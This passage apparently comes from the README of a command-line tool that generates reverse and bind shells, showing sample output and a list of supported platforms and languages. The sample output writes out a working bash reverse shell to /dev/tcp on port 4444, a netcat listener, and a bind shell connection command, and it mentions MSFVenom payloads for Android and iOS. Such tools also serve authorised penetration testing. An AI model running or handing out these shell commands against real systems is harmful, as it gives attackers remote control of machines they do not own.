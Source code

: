 ```
✓ Reverse Shell Generated Successfully!
════════════════════════════════════════

┌───────────────── Bash -i ──────────────────┐
│                                            │
│ Platform: linux                            │
│                                            │
│ /bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1 │
│                                            │
└────────────────────────────────────────────┘

Listener Commands:
Run one of these on your machine to receive the connection:

$ nc -lvnp 4444
   # nc

? Copy command to clipboard? Yes
✓ Command copied to clipboard!
```

### Bind Shell Example
```
? Enter your IP address: 192.168.1.100
? Enter port number: 8888
? Select target platform: Windows  
? Select shell type: Bind Shell
? Select bind shell commands: PHP Bind (bind, windows, BindShell)

════════════════════════════════════════
✓ Bind Shell Generated Successfully!
════════════════════════════════════════

Connection Commands:
Run one of these to connect to the bind shell:

$ nc 192.168.1.100 8888
   # nc
```

## Supported Platforms & Languages

### Operating Systems
- **Linux** (Debian, Ubuntu, CentOS, etc.)
- **Windows** (cmd, PowerShell, ConPty)
- **macOS** 
- **Android** (via MSFVenom)
- **iOS** (via MSFVenom)

### Programming Languages
- Bash, PowerShell, Python, Perl, PHP, Ruby
- C, C#, Java, JavaScript, Node.js
- Golang, Rust, Haskell, Dart, Crystal
- Awk, Lua, Groovy, Vlang
- And many more!
